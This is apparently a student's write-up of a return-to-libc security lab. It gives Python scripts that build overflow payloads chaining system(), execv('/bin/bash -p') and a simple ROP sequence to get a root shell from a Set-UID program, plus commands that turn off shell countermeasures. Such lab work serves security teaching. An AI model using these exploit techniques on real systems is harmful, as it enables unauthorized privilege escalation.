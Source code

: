# Return to libc | Alex Baron

## Task 1: Finding out the Addresses of libc Functions

First we turn off the countermeasures, except for the non-executable stack, and link /bin/sh to zsh:
> sudo ln -sf /bin/zsh /bin/sh

Then we retrive the address of *system()* and the address of *exit()* in the memory using gdb.

## Task 2: Putting the shell string in the memory

To achive our goal the string “/bin/sh” must be put in the memory and we have to know its address.
And then this address needs to be passed to the *system()* function.

Using the approach of the environment variable we set:
> export MYSHELL=/bin/sh

And get its address with the following program that needs to be compiled in 32bit binary:

```c
void main(){
    char* shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```

## Task 3: Launching the attack

With the help of cyclic, a tool from pwntools, we can find the correct amount of padding we need to insert. Then, we construct the payload as following: `padding + system_address + exit_address + parameter(/bin/sh address)`.
In this way the program will return to the system function with the parameter /bin/sh and will also gently exit without errors (as the address of *exit()* function is set as return address for *system()*).

The exploit will be the following:

```py
#!/usr/bin/env python3
import sys

content = bytearray(0xaa for i in range(300))

X = 36
sh_addr = 0xffffd44c       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 28
system_addr = 0xf7e12420   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 32
exit_addr = 0xf7e04f80     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

with open("badfile", "wb") as f:
  f.write(content)
```

The result is the following:

![Results](retlibc.png)

If we dont't insert the right address of *exit()* we are able to obtain the root shell anyway but at the moment of leaving that shell we will encounter a *Segmentation fault* error.

If we change the name from *retlib* to *newretlib* the attack will not succeed anymore and it will output the error:"zsh:1: command not found: h". The shift of three chars in the file name is reflected in the starting reading position of the env variable.

## Task 4 (Optional): Defeat Shell’s countermeasure

Some shell programs, such as *dash* and *bash*, have a countermeasure that automatically drops privileges when they are executed in a Set-UID process. We want to defeat such a countermeasure in this task. Let us first change the symbolic link back:
> sudo ln -sf /bin/dash /bin/sh

Although dash and bash both drop the Set-UID privilege, they will not do that if they are invoked with the -p option. So we will use *execv()* instead of *system()* to directly execute `/bin/bash -p`.

```c
int execv(const char \*pathname, char \*const argv[]);
```

For instance, if we want to invoke “/bin/bash -p” using execv, we need to set up the following:

```py
pathname = address of "/bin/bash"
argv[0] = address of "/bin/bash"
argv[1] = address of "-p"
argv[2] = NULL (i.e., 4 bytes of zero)

# which in our case, in the stack is:
____________________________________
execv() address
____________________________________
exit() address
____________________________________
param1 - address to the command
____________________________________
param2 - address of argv 
____________________________________
/bin/sh0
____________________________________
-p00
____________________________________
argv[0] <- memory address of /bin/sh
____________________________________
argv[1] <- memory address of -p
____________________________________
argv[2] <- 0000
____________________________________
```

So we can build the *badfile* with the following script:

```py
#!/usr/bin/env python3
import sys

content = bytearray(0xaa for i in range(300))
arr = 44
buf_addr = 0xffffcde0 # address of input buffer

Y = 28
execv_addr = 0xf7e994b0   # address of execv()
content[Y:Y+4] = (execv_addr).to_bytes(4,byteorder='little')

Z = 32
exit_addr = 0xf7e04f80     # address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

X = 36
p_addr = buf_addr + arr    # pathname i.e. address to the command
content[X:X+4] = (p_addr).to_bytes(4,byteorder='little')

# Put the values in the stack
content[arr:arr+8] = bytearray(b'/bin/sh\x00')
content[arr+8:arr+12] = bytearray(b'-p\x00\x00')

A = 40
argv_addr = buf_addr + arr + 12 # address of the argument array
content[A:A+4] = (argv_addr).to_bytes(4, byteorder='little')

# Construct the addresses
content[arr+12:arr+16] = (buf_addr + arr).to_bytes(4, byteorder='little')
content[arr+16:arr+20] = (buf_addr + arr + 8).to_bytes(4,byteorder='little')
content[arr+20:arr+24] = bytearray(b'\x00' *4)

with open("badfile", "wb") as f:
  f.write(content)
```

## Task 5 (Optional): Return-Oriented Programming

This task can be solved with the following script:

```py
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

pos = 28

for i in range(0,10):
    system_addr = 0x565562b0   # address of foo()
    content[pos:pos+4] = (system_addr).to_bytes(4,byteorder='little')
    pos = pos + 4

sys_addr = 0xf7e12420 # address of system()
content[pos:pos+4] = (sys_addr).to_bytes(4, byteorder='little')

exit_addr = 0xf7e04f80  # address of exit()
content[pos+4:pos+8] = (exit_addr).to_bytes(4,byteorder='little')

sh_addr = 0xffffd447    # address of "/bin/sh"
content[pos+8:pos+12] = (sh_addr).to_bytes(4,byteorder='little')


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```
